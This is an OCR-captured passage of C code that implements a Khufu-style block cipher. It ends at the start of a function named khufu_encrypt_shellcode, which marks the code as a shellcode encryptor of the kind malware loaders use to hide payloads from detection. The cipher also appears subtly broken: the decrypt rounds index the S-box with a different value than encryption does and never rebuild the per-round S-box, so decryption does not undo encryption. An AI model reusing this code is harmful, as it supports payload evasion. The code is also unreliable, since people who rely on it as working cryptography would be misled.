 ```cpp
  for (int round = 0; round < ROUNDS; round++) {
    khufu_generate_sbox(key, round);
    uint32_t temp = left;
    left = right ^ sbox[left & 0xFF];
    right = (temp >> 8) | (temp << 24);
    uint32_t temp2 = left;
    left = right;
    right = temp2;
  }

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | 
  ((uint32_t)key[10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | 
  ((uint32_t)key[14] << 8) | (uint32_t)key[15];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void khufu_decrypt(uint8_t *block, uint8_t *key) {
  uint32_t left = ((uint32_t)block[0] << 24) | ((uint32_t)block[1] << 16) | 
  ((uint32_t)block[2] << 8) | (uint32_t)block[3];
  uint32_t right = ((uint32_t)block[4] << 24) | ((uint32_t)block[5] << 16) | 
  ((uint32_t)block[6] << 8) | (uint32_t)block[7];

  left ^= ((uint32_t)key[8] << 24) | ((uint32_t)key[9] << 16) | ((uint32_t)key
  [10] << 8) | (uint32_t)key[11];
  right ^= ((uint32_t)key[12] << 24) | ((uint32_t)key[13] << 16) | ((uint32_t)
  key[14] << 8) | (uint32_t)key[15];

  for (int round = ROUNDS - 1; round >= 0; round--) {
    uint32_t temp = right;
    right = left ^ sbox[right & 0xFF];
    left = (temp << 8) | (temp >> 24);
    uint32_t temp2 = left;
    left = right;
    right = temp2;
  }

  left ^= ((uint32_t)key[0] << 24) | ((uint32_t)key[1] << 16) | 
  ((uint32_t)key[2] << 8) | (uint32_t)key[3];
  right ^= ((uint32_t)key[4] << 24) | ((uint32_t)key[5] << 16) | 
  ((uint32_t)key[6] << 8) | (uint32_t)key[7];

  block[0] = (left >> 24) & 0xFF;
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}

void khufu_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
```